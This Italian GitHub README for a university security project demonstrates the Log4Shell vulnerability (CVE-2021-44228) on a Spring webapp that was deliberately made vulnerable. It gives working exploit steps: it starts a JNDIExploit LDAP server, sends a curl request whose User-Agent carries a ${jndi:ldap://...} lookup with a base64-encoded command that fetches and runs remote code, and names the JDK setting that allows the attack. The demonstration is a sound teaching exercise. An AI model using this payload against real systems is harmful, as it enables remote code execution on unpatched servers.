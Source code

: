 # Progetto sicurezza Informatica ICDA A.A 2021-2022

Lo scopo di questo progetto è quello di mostrare la vulnerabilità Log4shell CVE-2021-44228 che affligge la libreria Java Log4j , impiegata da innumerevoli software di ogni tipo (programmi standard, giochi, webapp).

In questo progetto è stata scelta una webapp realizzata con il popolare web framework Java MVC, opportunamente modificata per lo scopo.

La parte da me modificata si trova nel controller "HomeController", file "src\main\java\com\nico\store\store\controller\HomeController.java".
Nel controller è stata istanziata la classe Logger, ed è stata aggiunta (mediante annotazione) l'istruzione per ricavare l'header della richiesta "User-Agent" e passarla al controller. All'interno del controller, si è usata l'istanza del Logger per loggare la User-Agent. Ne consegue quindi, che se un client invia una  richiesta, sfruttando la Java API JNDI (Java Naming and Directory Interface) al server LDAP con l'header opportunamente modificato (nel nostro caso la user-agent, ma avrei potuto sceglierne un altro volendo), contenente l'istruzione per il download di una classe Java dal server LDAP, verrà eseguito il codice contenuto nella classe.

La libreria impiegata di log4J 2.6.1.
Nel progetto è presente il file pom.xml per la compilazione tramite Maven.
Ho creato un DockerFile che contiene al suo interno tutto il necessario per avviare l'immagine senza alcuna configurazione e senza installare la JDK necessaria per dimostrare l'exploit.

## Utilizzo
Prima di tutto sarà necessario avviare un server mysql e impostare il relativo indirizzo, username e password nel file "application.properties", all'interno della cartella "resources". è possibile utilizzare un container docker allo scopo.

Successivamente sarà necessario avviare il server LDAP che servirà la classe Java con il Payload.


```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i tuo-indirizzo-ip-privato -p 8888
```



Per sfruttare la vulnerabilità è necessario  creare un payload (un comando che si vuole far eseguire al server remoto). Esempio:

```bash
touch /tmp/hacked
```

e includerlo (codificato in base64) in una richiesta da inviare al server della webApp. Si userà il comando Curl per lo scopo.

Una volta inviato il comando, il metodo della libreria Log4j invocato nel controller, interpreterà il comando, sarà scaricata ed eseguita  una classe Java dal server LDAP (controllato dall'attaccante)  e successivamente avverrà l'esecuzuzione del payload, contenuto all'interno della classe Java scaricata nel passo precedente. Esempio di comando valido:

```bash
curl -A '${jndi:ldap://192.168.10.128:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}' http://172.18.0.2:8080
```
Per codificare in base64 il payload ci si può servire del tool disponibile qui: https://gchq.github.io/CyberChef/

Ovviamente il server della WebApp deve essere avviato prima di inviare la richiesta curl.

## Avvio web-app

Se si desidera utilizzare il container docker (consigliato), si deve prima di tutto clonare questo repo con:
```bash
git clone https://github.com/andree93/sicurezza-spring-webapp-log4j.git
```

Posizionarsi nella directory principale della webApp e creare l'immagine docker con il Dockerfile presente su questo repo:
```bash
docker build --tag nomeContainer .
```

Crea il volume docker con il file di configurazione:
```bash
docker volume create nomeVolume
```

e dopo andare nella directory dei dati del volume appena creato e copiare il file di configurazione  "application.properties"  che si trova nella directory "config" (potrebbero essere necessari i privilegi di root):
```bash
cp application.properties /var/lib/docker/volumes/nomeVolume/_data
```

Avviare il container:

```bash
docker run --name nomeContainer -p 8080:8080 --network nomeRete -v nomeVolumeDocker:/config nomeImmagineDocker
```

Oppure è possibile montare direttamente la cartella che contiene il file di configurazione, senza creare il volume docker:

```bash
docker run -it --name nomeContainer -p 8080:8080 --network nomeSottoRete -v /percorso/al/file/config/:/config nomeImmagineDocker
```






Dopo aver inviato la request al server della webApp, come descritto sopra (ad esempio con curl), sarà possibile notare dai log del server LDAP che è stata "servita" la classe Java al server della nostra WebApp, con il payload al suo interno.
A seconda del comando eseguito, è possibile vedere il risultato. Ad esempio, se il payload provoca la creazione di file, è possibile entrare nel container e verificarlo. Ad esempio:


```bash
docker exec -it nomeApplicazione sh
```

```bash
ls /tmp/hacked
```

Ovviamente è possibile sfruttare la vulnerabilità eseguendo la webApp senza docker, ma è necessario che la JDK (o JRE) abbia abilitata l'opzione che consente di eseguire classi scaricate da un server remoto LDAP tramite la API JNDI.
L'immagine docker, ad esempio, è stata creata a partire dalla JDK-8u181, che ha l'opzione abilitata di default.

```bash
com.sun.jndi.ldap.object.trustURLCodebase=true
```

Tuttavia, avere una versione più recente della JDK/JRE non è sufficiente per mettersi completamente al riparo dalla vulnerabilità.


```

## Contributing
La webApp impiegata in questo progetto è stata creata dall'autore GNico (github: https://github.com/GNico/spring-eshop )


Il server LDAP per l'exploit della vulnerabilità è stato creato da feihong-cs. Esistono anche altri tool per il medesimo scopo.


La libreria Log4J è di Apache Software foundation https://logging.apache.org/log4j/2.x/index.html

Integrazione libreria Log4J nella webApp e containerizzazione: Andrea Carro



## License
[MIT](https://choosealicense.com/licenses/mit/)
